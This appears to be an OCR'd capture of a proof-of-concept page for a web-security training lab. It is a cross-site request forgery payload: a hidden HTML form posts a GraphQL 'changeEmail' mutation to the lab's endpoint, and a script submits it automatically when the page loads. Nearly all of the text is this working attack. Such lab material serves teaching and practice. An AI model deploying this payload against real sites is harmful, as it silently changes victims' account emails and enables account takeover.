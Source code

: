     <form
        action="https://0a7b0022041aea1b82cdfbdd00b0009c.web-security-academy.net/graphql/v1"
        method="post"
    >
    <input
        type="hidden"
        name="query"
        value='mutation changeEmail{changeEmail(input:{email:"f@a.com"}){email}}'
    />
        <input type="hidden" value="Submit" />
    </form>
    <script>
        document.forms[0].submit();
    </script>


